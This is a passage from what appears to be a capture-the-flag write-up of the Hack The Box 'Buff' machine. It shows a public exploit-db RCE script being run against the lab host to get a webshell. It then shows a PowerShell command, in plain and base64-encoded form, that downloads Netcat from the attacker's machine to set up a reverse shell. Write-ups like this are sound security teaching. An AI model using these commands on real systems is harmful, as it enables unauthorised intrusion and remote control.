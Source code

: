 ![](site-info-disclosure.png)

Google quickly pointed towards an [RCE exploit](https://www.exploit-db.com/exploits/48506) for this version of the CMS.

Conveniently, no modification to the script was necessary and I was able to gain RCE.

```shell
┌──[matt@parrot]─[~/htb/buff]
└──╼$ python 48506 http://10.10.10.198:8080/
/\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
\/
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
buff\shaun
```

However, the one issue that I noticed within the script itself is that the "shell" is not a shell at all. It is a shell emulator, but each command is basically run individually. In order to break out of that and get a fully functioning shell, I hosted a simple web server and downloaded Netcat using a powershell encoded command. Once that was downloaded, I ran a Netcat listener on my host machine and connected to it from the remote machine.

```shell
┌──[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadnc.cmd 
IEX(New-Object System.Net.WebClient).downloadFile("http://10.10.14.2/nc.exe","c:\xampp\htdocs\gym\upload\nc.exe")
┌─[matt@parrot]─[~/htb/buff]
└──╼$ cat downloadnc.cmd | iconv -t UTF-16LE | base64 -w0 SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADQALgAyAC8AbgBjAC4AZQB4AGUAIgAsACIAYwA6AFwAeABhAG0AcABwAFwAaAB0AGQAbwBjAHMAXABnAHkAbQBcAHUAcABsAG8AYQBkAFwAbgBjAC4AZQB4AGUAIgApAAoA
```

